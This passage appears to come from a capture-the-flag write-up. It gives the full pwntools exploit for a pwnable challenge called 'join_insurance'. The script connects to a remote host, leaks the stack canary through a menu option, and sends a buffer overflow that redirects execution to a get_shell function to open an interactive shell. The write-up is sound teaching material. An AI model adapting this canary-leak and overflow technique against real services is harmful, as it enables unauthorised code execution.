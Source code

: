 ### 4. Exploit Code

```python
from pwn import *
import binascii

#p = process('./join_insurance')
p = remote('43.203.26.108', 912)
e = ELF('./join_insurance')
#input()

get_shell = e.symbols['get_shell']

def leak_canary(offset):
    p.sendlineafter('> ', 'R')
    p.sendlineafter(': ', offset)
    

# canary leak
canary = b''
for i in range(129, 132):
    leak_canary(str(i))
    p.recvuntil('Your choice is ')
    p.recvuntil(': ')
    canary += p.recvline().strip()
    print(canary)

canary = canary.decode()
canary = binascii.unhexlify(canary)
print(canary)
#canary = int(canary, 16)

p.sendlineafter('> ', 'E')

size = 0x400
p.sendlineafter(': ', str(size))

payload = b'A' * 64
payload += b'\x00' + canary
payload += b'B' * 12
payload += p32(get_shell)

p.sendlineafter(': ', payload)

p.interactive()
```

## **lvlttr - [Pwnable]**

### 1. Abstract
